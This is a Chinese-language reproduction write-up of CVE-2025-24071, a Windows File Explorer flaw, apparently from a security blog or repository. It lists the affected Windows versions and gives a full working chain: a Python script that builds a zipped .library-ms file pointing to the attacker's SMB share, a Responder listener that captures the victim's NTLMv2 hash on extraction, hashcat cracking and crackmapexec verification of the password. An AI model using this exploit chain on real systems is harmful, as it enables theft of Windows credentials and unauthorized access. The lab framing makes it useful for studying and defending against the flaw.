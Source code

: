 ***\*漏洞概述：\****

***\*Windows 文件资源管理器作为 Windows 操作系统的核心组件，负责管理和浏览本地及网络上的文件和文件夹。\****

***\*当攻击者构造一个包含恶意 SMB 路径的 `.library-ms` 文件并诱导受害者解压时，Windows 文件资源管理器会自动解析该文件内容以生成预览和索引元数据。在此过程中，系统会尝试解析嵌入的SMB路径（例如:`\\192.168.x.x\shared`），从而触发与攻击者控制的服务器之间的 NTLM 认证握手。这一行为会在无需用户交互的情况下，导致受害者的 NTLMv2 哈希被泄露，进而可能被攻击者用于进一步的攻击。\****

***\**\*受影响版本:\*\**\***

Windows 10:

- Version 1809 for both x64 and 32-bit systems
- Version 1607 for x64 and 32-bit
- Version 22H2 (x64, 32-bit, ARM64)
- Version 21H2 for x64, ARM64, and 32-bit



• Windows 11:

- Version 24H2 for x64 and ARM64 systems
- Version 23H2 for x64 and ARM64 systems
- Version 22H2 for x64 and ARM64 systems



• Windows Server:

- Windows Server 2025 (Server Core installation and full versions)
- Windows Server 2022 (Server Core installation and full versions)
- Windows Server 2019 and Windows Server 2016 (Server Core installations)
- Windows Server 2012 R2 (Server Core installation and full version)

***\**\*漏洞复现：\*\**\***

***\**\*首先监听机器使用kali机器，利用该机器开启一个监听，用来配合该漏洞对目标机器的NTLM进行捕获\*\**\***

- 

```
sudo responder -I eth0 -v 
```

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640.png)

***\**\*而后使用github已经公开的脚本，ip地址填写kali地址，文件名随便写就行，这个脚本的目的是为了生成包含\*\*\*\*\*\*.library-ms\*\* 文件的压缩包\*\*\*\*\*\**\***

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640-1742873465934-1.png)

***\**\*\*\*\*\*脚本内容如下：\*\*\*\*\*\**\***

```
import os
import zipfile

def main():
    file_name = input("Enter your file name: ")
    ip_address = input("Enter IP (EX: 192.168.1.162): ")


    library_content = f"""<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\{ip_address}\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
"""

    library_file_name = f"{file_name}.library-ms"
    with open(library_file_name, "w", encoding="utf-8") as f:
        f.write(library_content)


    with zipfile.ZipFile("exploit.zip", mode="w", compression=zipfile.ZIP_DEFLATED) as zipf:
        zipf.write(library_file_name)


    if os.path.exists(library_file_name):
        os.remove(library_file_name)

    print("completed")

if __name__ == "__main__":
    main()
```

***\**\*\*\*\*\*执行成功后，将压缩包拷贝到目标机器，此处演示的机器为windows10机器，然后直接解压。(使用7z和自带的没有区别)\*\*\*\*\*\**\***

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640-1742873465935-2.png)

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640-1742873465935-3.png)

***\**\*\*\*\*\*解压成功后，发现kali机器成功监听到ntlm的握手信息\*\*\*\*\*\**\***

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640-1742873465935-4.png)

***\**\*\*\*\*\*将监听到的hash保存到文件里，然后利用hashcat进行密码破解\*\*\*\*\*\**\***

- 

```
hashcat hash.txt top19576.txt -m 5600
```

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640-1742873465935-5.png)

***\**\*\*\*\*\*最后利用工具进行验证，发现密码正确\*\*\*\*\*\**\***

- 

```
crackmapexec smb 192.168.50.105 -u "vlan" -p "123456"
```

![图片](CVE-2025-24071-windows%E6%96%87%E4%BB%B6%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86%E5%99%A8%E6%AC%BA%E9%AA%97%E6%BC%8F%E6%B4%9E.assets/640-1742873465935-6.png)

***\**\*\*\*\*\*本次实验是在虚拟机里进行的，在测试的时候，曾经在局域网内发送了两个样本到其他物理机，解压后并没有成功的返回ntlm值，不知道是为什么\*\*\*\*\*\**\***